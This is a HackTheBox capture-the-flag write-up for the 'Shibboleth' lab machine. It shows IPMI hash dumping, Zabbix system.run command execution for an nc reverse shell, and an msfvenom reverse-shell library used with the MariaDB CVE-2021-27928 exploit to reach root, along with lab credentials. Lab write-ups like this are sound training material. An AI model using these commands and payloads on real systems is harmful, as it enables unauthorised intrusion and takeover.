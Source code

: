 ```yaml
---
title: Shibboleth writeup
date: 2022-07-09 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["medium-box", "zabbix", "mysql"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/shibboleth/
image: # Thumbnail 
  src: Shibboleth.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
This box focused on enumerating an udp port hosting an ipmi service for a hash which, when cracked could be leveraged into logging in to a zabbix service. Rooting the box was relatively straight forward given the mysql version, which could be used to run a msfvenom payload giving us a reverse shell on the box.

## Foothold
We start out by doing an nmap port scan:

```console
Nmap scan report for 10.129.98.93
Host is up (0.024s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
```
Pretty sparse nmap scan, only port open is 80 so lets check it out. 

![](welcome.png)

There doesn't really seem to be anything interesting on this service, so let's try to enumerate some more:

```console
==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shibboleth.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/dns-top1Million.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/11/14 07:52:42 Starting gobuster in VHOST enumeration mode
===============================================================
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]    
                                                           
===============================================================
2021/11/14 08:06:17 Finished
===============================================================
```
We have located some more vhosts, and after scanning for udp ports we have also found that udp port 623 is open.
```console
┌──(bitis㉿workstation)-[~/Coding/BitisG.github.io]
└─$ sudo nmap -sU 10.129.77.40                                                                                                                                                                                                        130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-09 22:51 CEST
Nmap scan report for shibboleth.htb (10.129.77.40)
Host is up (0.027s latency).
Not shown: 999 closed udp ports (port-unreach)
PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 1088.56 seconds
```
We can try some of the techniques mentioned by [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-authentication-bypass-via-cipher-0)

```console
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.77.40:623 - IPMI - Hash found: Administrator:17e8f4d6820100002e44e0d663c64e9712ab045d0316ba036117b573ab45edadd1dc693420597a11a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:8adb88e34ccf6233fc1768d3a6c5ee7822473411
```
Cracking the hash we get the following credentials: `Administrator:ilovepumkinpie1`

We can then add the found vhosts to our hosts file and then visit the zabbix site:

![](zabbix.png)

After logging in we see a dashboard

![](zabbix_dash.png)

We can go to `Configuration > hosts > item > create item` and then create an item with system.run as key. This will run any system commands we give it on the system. If we enter a nc reverse shell and then click `test > Get value and test` we receive a connection from the target system.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Shibboleth]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.76.33] 57796
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
$ 
```

## Pivot
Once we are logged in as the zabbix user, we notice that two other users are available, one being `ipmi-svc` and the other being `root` of course. If we simply use the ipmi password found earlier we can switch to the `ipmi` user and get the user flag:
```console
$ su ipmi-svc
Password: ilovepumkinpie1
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

## Privilege escalation
To start with, we first check out the zabbix configuration file found under `/etc/zabbix/zabbix_server.conf`:
```console
---SNIP---
### Option: DBUser
#       Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
---SNIP---
```
Also, the version of mysql contains a critical vulnerability which gives us [command execution](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html) we can use this to get a reverse shell on the system as root. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Shibboleth]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.72 LPORT=4445 -f elf-so -o CVE-2021-27928.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```
After transferring the file to the target system we simply follow the POC as outlined in the previous link from packet storm.
```console
ipmi-svc@shibboleth:~$ chmod +x CVE-2021-27928.so
chmod +x CVE-2021-27928.so
ipmi-svc@shibboleth:~$ mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/home/ipmi-svc/CVE-2021-27928.so";'
<wsrep_provider="/home/ipmi-svc/CVE-2021-27928.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
ipmi-svc@shibboleth:~$ 
```
We then recieve a reverse shell as root:
```console
┌──(bitis㉿workstation)-[~/htb/Machines/Shibboleth]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.76.33] 40496
id
uid=0(root) gid=0(root) groups=0(root)
```
Rooted!